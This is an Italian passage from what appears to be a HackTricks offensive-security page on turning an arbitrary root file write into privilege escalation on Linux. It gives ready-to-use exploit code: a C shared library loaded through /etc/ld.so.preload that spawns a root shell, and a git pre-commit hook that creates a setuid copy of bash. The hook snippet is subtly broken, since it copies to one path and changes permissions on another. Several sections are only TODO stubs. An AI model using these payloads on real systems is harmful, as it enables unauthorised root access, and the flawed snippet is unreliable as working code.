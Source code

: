 # Scrittura Arbitraria di File come Root

{{#include ../../banners/hacktricks-training.md}}

### /etc/ld.so.preload

Questo file si comporta come la variabile d'ambiente **`LD_PRELOAD`** ma funziona anche nei **binaries SUID**.\
Se puoi crearlo o modificarlo, puoi semplicemente aggiungere un **percorso a una libreria che verrà caricata** con ogni binary eseguito.

Ad esempio: `echo "/tmp/pe.so" > /etc/ld.so.preload`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unlink("/etc/ld.so.preload");
setgid(0);
setuid(0);
system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
### Git hooks

[**Git hooks**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) sono **script** che vengono **eseguiti** su vari **eventi** in un repository git, come quando viene creato un commit, un merge... Quindi, se uno **script o utente privilegiato** sta eseguendo queste azioni frequentemente ed è possibile **scrivere nella cartella `.git`**, questo può essere utilizzato per **privesc**.

Ad esempio, è possibile **generare uno script** in un repo git in **`.git/hooks`** in modo che venga sempre eseguito quando viene creato un nuovo commit:
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```
### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

Il file situato in `/proc/sys/fs/binfmt_misc` indica quale binario dovrebbe eseguire quale tipo di file. TODO: controlla i requisiti per abusare di questo per eseguire una rev shell quando un tipo di file comune è aperto.

{{#include ../../banners/hacktricks-training.md}}
